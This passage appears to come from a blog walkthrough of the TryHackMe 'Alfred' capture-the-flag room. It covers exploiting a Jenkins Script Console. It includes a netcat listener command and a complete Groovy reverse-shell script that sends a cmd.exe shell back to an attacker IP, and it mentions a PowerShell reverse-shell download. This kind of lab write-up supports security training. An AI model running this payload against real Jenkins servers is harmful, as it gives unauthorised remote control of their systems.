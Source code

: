 As we have access to this console we can check under Manage Jenkins for the Script Console which would allow us to run commands;

[![4](/assets/blog/THM/Alfred/4.png)](/assets/blog/THM/Alfred/4.png)

As we can run commands we can run a local http server on our machine and download files from it, such as in invoke-powershelltcp.ps1 reverse shell script

-----
# Exploitation

## Groovy Script

First we set up a listener on our machine to catch the response from the server;

```shell
nc -lvnp 1337
```

Now use a Groovy Script to call back to our machine and open a cmd window;

```shell
Thread.start {
String host="10.14.49.18";
int port=1337;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
}
```
